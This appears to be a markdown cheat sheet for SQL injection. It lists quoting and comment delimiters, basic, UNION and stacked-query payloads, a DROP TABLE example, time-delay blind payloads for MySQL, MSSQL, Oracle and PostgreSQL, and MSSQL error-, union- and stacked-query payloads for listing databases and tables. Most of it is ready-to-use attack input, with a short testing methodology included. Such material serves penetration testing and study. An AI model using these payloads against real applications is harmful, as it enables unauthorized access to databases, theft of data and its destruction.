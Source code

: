 ```yaml
---
layout: post
category: cheatsheets
---
```


## Key Delimiters and Enclosures
- `'`, `"`: Standard string delimiters. E.g., `' OR '1'='1`
- `\``: MySQL identifier quoting. E.g., `` `column` = 'value' ``
- `;`: Statement separator. E.g., `SELECT * FROM users; DROP TABLE users;`
- `--`, `/*...*/`: SQL comments. E.g., `--comment`, `/* comment */`

## Injection Patterns
- Basic Injection: `' OR 1=1--`
- Closing Brackets: Try closing out functions or statements. E.g., `')`, `'))`, `')))--`, `%'))-- -`
- Logical Operators: `OR`, `AND`. E.g., `' OR 'x'='x`
- Union Injection: `' UNION SELECT ... --`
- Conditional Time Delays (for blind SQLi): 
  - MySQL: `'; SELECT SLEEP(5);--`
  - MSSQL: `'; WAITFOR DELAY '00:00:05';--`
  - Oracle: `'; dbms_lock.sleep(5);--`
  - PostgreSQL: `'; SELECT pg_sleep(5);--`
- Out-of-Band: Through DNS or HTTP. E.g., DNS lookup triggered by SQL query.

## Testing Methodology
1. **Find Injection Points**: Identify user inputs/parameters interacting with the database.
2. **Manipulate Inputs**: Use delimiters, enclosures, and patterns to alter queries.
3. **Observe Behavior**: Changes or errors can indicate SQLi vulnerabilities.
4. **Automate Detection**: Tools like SQLMap or OWASP ZAP can assist in finding vulnerabilities


### MSSQL

#### List databases:
- Normal
    - `Select name from sys.databases`
- Error based
    - `cast((SELECT name FROM sys.databases ORDER BY name OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY) as integer)`
- Union Based
    - `' UNION SELECT name, NULL FROM master..sysdatabases --`
- Stacked Queries:
    - `; SELECT name FROM master..sysdatabases; --`


#### List Tables:
- Normal
    - `select * from app.information_schema.tables;`
- Error based`
    - `cast((SELECT TABLE_NAME FROM exercise.information_schema.tables ORDER BY name OFFSET 1 ROWS FETCH NEXT 1 ROWS ONLY) as integer)`
- Union Based
    - `' UNION SELECT TABLE_NAME, NULL FROM information_schema.tables --`
- Stacked Queries:
    - `; SELECT * FROM information_schema.tables; --`
